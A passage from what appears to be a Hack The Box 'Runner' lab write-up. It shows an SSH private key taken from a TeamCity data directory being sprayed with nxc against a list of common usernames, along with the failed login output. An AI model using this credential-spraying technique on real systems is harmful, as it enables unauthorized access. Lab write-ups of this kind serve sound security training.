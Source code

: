 ### SSH private key spray

Next thing is to find usernames that can use the key

(No positive result) First, I spray the key with common usernames

```bash
┌──(bravosec㉿fsociety)-[~/htb/Runner/loot]
└─$ cp datadir/data/teamcity_server/datadir/config/projects/AllProjects/pluginData/ssh_keys/id_rsa .

┌──(bravosec㉿fsociety)-[~/htb/Runner/loot]
└─$ chmod 600 id_rsa

┌──(bravosec㉿fsociety)-[~/htb/Runner/loot]
└─$ nxc ssh $(pt get rhost) -u /usr/share/seclists/Usernames/top-usernames-shortlist.txt -p '' --key-file id_rsa
SSH         10.10.11.13     22     runner.htb       [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.6
SSH         10.10.11.13     22     runner.htb       [-] root: q must be exactly 160, 224, or 256 bits long
SSH         10.10.11.13     22     runner.htb       [-] admin: q must be exactly 160, 224, or 256 bits long
SSH         10.10.11.13     22     runner.htb       [-] test: q must be exactly 160, 224, or 256 bits long
SSH         10.10.11.13     22     runner.htb       [-] guest: q must be exactly 160, 224, or 256 bits long
SSH         10.10.11.13     22     runner.htb       [-] info: q must be exactly 160, 224, or 256 bits long
SSH         10.10.11.13     22     runner.htb       [-] adm: q must be exactly 160, 224, or 256 bits long
SSH         10.10.11.13     22     runner.htb       [-] mysql: q must be exactly 160, 224, or 256 bits long
SSH         10.10.11.13     22     runner.htb       [-] user: q must be exactly 160, 224, or 256 bits long
SSH         10.10.11.13     22     runner.htb       [-] administrator: q must be exactly 160, 224, or 256 bits long
SSH         10.10.11.13     22     runner.htb       [-] oracle: q must be exactly 160, 224, or 256 bits long
SSH         10.10.11.13     22     runner.htb       [-] ftp: q must be exactly 160, 224, or 256 bits long
SSH         10.10.11.13     22     runner.htb       [-] pi: q must be exactly 160, 224, or 256 bits long
SSH         10.10.11.13     22     runner.htb       [-] puppet: q must be exactly 160, 224, or 256 bits long
SSH         10.10.11.13     22     runner.htb       [-] ansible: q must be exactly 160, 224, or 256 bits long
SSH         10.10.11.13     22     runner.htb       [-] ec2-user: q must be exactly 160, 224, or 256 bits long
SSH         10.10.11.13     22     runner.htb       [-] vagrant: q must be exactly 160, 224, or 256 bits long
SSH         10.10.11.13     22     runner.htb       [-] azureuser: q must be exactly 160, 224, or 256 bits long
```
